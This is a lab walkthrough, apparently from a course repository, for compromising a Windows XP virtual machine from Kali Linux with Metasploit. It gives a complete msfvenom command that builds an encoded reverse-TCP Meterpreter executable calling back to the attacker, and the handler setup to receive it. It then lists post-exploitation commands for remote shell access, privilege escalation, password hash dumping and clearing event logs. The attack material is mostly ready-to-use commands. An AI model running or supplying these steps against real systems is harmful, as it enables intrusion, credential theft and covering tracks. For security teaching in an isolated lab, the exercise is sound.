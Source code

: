 #### **1. Components Required:**

- **Kali Linux** (as the attacker machine)
- **Windows XP** (64-bit ISO as the target machine)

---

### **2. Network Configuration:**

- Configure both **Kali Linux** and **Windows XP** Virtual Machines in **NAT Network** mode:
    - Ensures both machines have internet access.
    - Facilitates communication between them.
- Use the `ping` command to verify connectivity between the two machines.

---

### **3. Practical: Android Meterpreter (Windows XP)**

#### **Step 1: Generate Payload on Kali Linux**

Use **msfvenom** to create a malicious executable file:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Kali_IP> LPORT=4000 -f exe > sunbeam.exe
```

#### **Step 2: Set Up Listener on Kali Linux**

1. Open **Metasploit Framework**:
    ```bash
    msfconsole
    ```
2. Configure the handler:
    ```bash
    use multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST <Kali_IP>
    set LPORT 4000
    exploit
    ```

#### **Step 3: Execute Payload on Windows XP**

1. Transfer the generated payload (`sunbeam.exe`) to the **Windows XP** machine.
2. Run the file on the Windows XP system to establish a reverse connection.

---
#### **1. System Information:**

- `sysinfo`  
    Displays basic information about the target system.

#### **2. File System Interaction:**

- `ls`  
    Lists the contents of the current directory.
- `cd <directory>`  
    Changes the current directory.
- `download <file>`  
    Downloads a file from the target.
- `upload <file>`  
    Uploads a file to the target.

#### **3. Process Management:**

- `ps`  
    Lists the running processes on the target system.
- `kill <PID>`  
    Terminates a specific process by its process ID.

#### **4. Network Commands:**

- `ifconfig`  
    Displays the target machine's network interface information.

#### **5. Shell and Command Execution:**

- `shell`  
    Opens a command shell on the target machine.
- `execute -f <command>`  
    Executes a command on the target machine.

#### **6. Post-Exploitation:**

- `getsystem`  
    Attempts to elevate privileges to SYSTEM level.
- `hashdump`  
    Dumps password hashes from the target machine.

#### **7. Cleanup and Exit:**

- `clearev`  
    Clears event logs on the target system.
- `exit`  
    Terminates the Meterpreter session.

---
